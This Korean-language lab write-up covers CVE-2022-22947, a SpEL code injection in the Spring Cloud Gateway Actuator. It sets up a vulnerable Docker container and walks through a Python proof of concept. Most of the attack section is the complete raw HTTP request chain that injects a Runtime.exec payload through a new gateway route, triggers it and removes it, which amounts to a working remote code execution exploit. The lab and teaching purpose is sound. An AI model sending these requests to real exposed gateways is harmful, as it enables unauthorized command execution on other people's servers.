 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

**Contributors**

-   [박천웅(@CheonWoong-Park)](https://github.com/CheonWoong-Park)

Spring Cloud Gateway는 Spring WebFlux 위에 API Gateway를 구축하기 위한 라이브러리입니다.

3.1.0 및 3.0.6 이전 버전의 Spring Cloud Gateway를 사용하는 애플리케이션은 Gateway Actuator EndPoint를 사용하도록 설정되고 노출되며 보안이 해제된 경우 취약점이 발생합니다. 
원격 공격자는 악의적으로 조작된 요청을 수행하여 원격 호스트에서 임의의 원격 실행을 허용할 수 있습니다.

참고자료:

- <https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>
- <https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.md#spring-cloud-gateway-actuator-api-spel-code-injection-cve-2022-22947>

## 취약점 환경

먼저, Spring Cloud Gateway 3.1.0을 사용하는 서버를 구축 해야합니다.
아래 내용은 WSL2(Ubuntu)환경에서 실습하였습니다.

docker-compose.yml을 기반으로 도커 컨테이너를 구축합니다.

```
docker-compose up -d
```

서버가 시작되면, http://localhost:8080/ 으로 서버가 돌아갑니다.

## 취약점 실습

작성자는 포스트맨을 이용하였습니다.

1) spring cloud의 Andpoint 취약점을 공격하기 위해 라우터를 추가하는 SpEL식을 리퀘스트합니다.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

2) SpEL 표현식이 작성된 라우터가 서버에 추가 된 후, 게이트웨이를 새로고침 합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

3) 결과를 받아 오도록 GET메소드 리퀘스트를 보냅니다.

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

4) 그 후, 공격 라우터를 삭제합니다.

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

5) 다시 게이트웨이를 새로고침합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

## POC 작성

파이썬을 이용하여 위 단계들을 한번에 이룰 수 있도록 코드를 작성하였습니다.
poc.py() 참고

## POC 출력 결과 
```
python3 poc.py http://localhost:8080
```

![](5.png)

![](5.png)
